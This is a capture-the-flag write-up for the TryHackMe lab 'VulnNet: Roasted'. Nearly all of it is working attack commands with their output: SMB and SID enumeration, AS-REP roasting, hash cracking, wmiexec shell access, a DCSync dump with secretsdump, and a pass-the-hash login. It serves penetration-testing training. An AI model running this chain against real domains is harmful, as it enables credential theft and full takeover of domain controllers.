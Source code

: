# Room AD
## VulnNet: Roasted Tryhackme (writeup)



Room: https://tryhackme.com/room/vulnnetroasted

### Tasks

User.txt


System.txt

IP= 10.10.250.145
>## 1- Nmap
 ```
 root@ubuntu:~# nmap -sC -sV -Pn -n -A 10.10.250.145

```
Output

Domain: vulnnet-rst.local

Netbios name: WIN-2BO8M1OE1M1



>## 2-Enumerate SMB

 ```
 root@ubuntu:~# smbclient -L \\\\10.10.250.145
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

```
>## Username enumerate
we will use lookupsid.py
```
root@ubuntu:~# lookupsid.py anonymous@10.10.250.145
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.250.145
[*] StringBinding ncacn_np:10.10.250.145[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

```
create file with above users

>## GetNPUsers
```
root@ubuntu:~# GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.10.250.145
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:85f4545ec4be97312a8824a26a0b9afa$010e2f219d16ea3af09d2da1d102[HIDEEN]

```
above command used to hash found

>## Crack Hashe
```
root@ubuntu:~# john  --wordlist=/root/THM/rockyou.txt hashe.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])

```
Found password

>## Smbclient

```
root@ubuntu:~# smbclient  -U t-skid \\\\10.10.250.145\\NETLOGON
Enter WORKGROUP\t-skid's password:

```
 ````
 smb: \> ls
  .                                   
  ..                                  
  ResetPassword.vbs                   

		
smb: \> get ResetPassword.vbs
````

````

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs 
smb: \> 
````

````
root@ubuntu:~# cat ResetPassword.vbs 


````
CREDENTIALS are above in above file

>## wmiexec.py

Using credentials found above
```
root@ubuntu:~# wmiexec.py vulnnet-rst.local/a-whitehat@10.10.116.57

```
you got shell and try to find user.txt

```
c:\>dir
c:\>cd Users
c:\Users>dir
c:\Users>cd enterprise-core-vn
c:\Users\enterprise-core-vn>dir
c:\Users\enterprise-core-vn>cd Desktop

c:\Users\enterprise-core-vn\Desktop>dir
c:\Users\enterprise-core-vn\Desktop>cat user.txt
THM{xyz}

````
 ## Privilege

DCSync attack

>## secretsdump.py

```
root@ubuntu:~# secretsdump.py vulnnet-rst.local/a-whitehat:******************@10.10.250.145

Administrator:c25xxxxxxx

```
## try to login with above hash of Admin

```
root@ubuntu:~# evil-winrm -i 10.10.250.145 -u Administrator -H c25xxxxxc3b09d

Evil-WinRM shell v2.3

\Users\Administrator\Documents> cd c:\Users\Administrator\Desktop
c:\Users\Administrator\Desktop> dir
system.txt
C:\Users\Administrator\Desktop> cat system.txt
THM{16xyz}

```
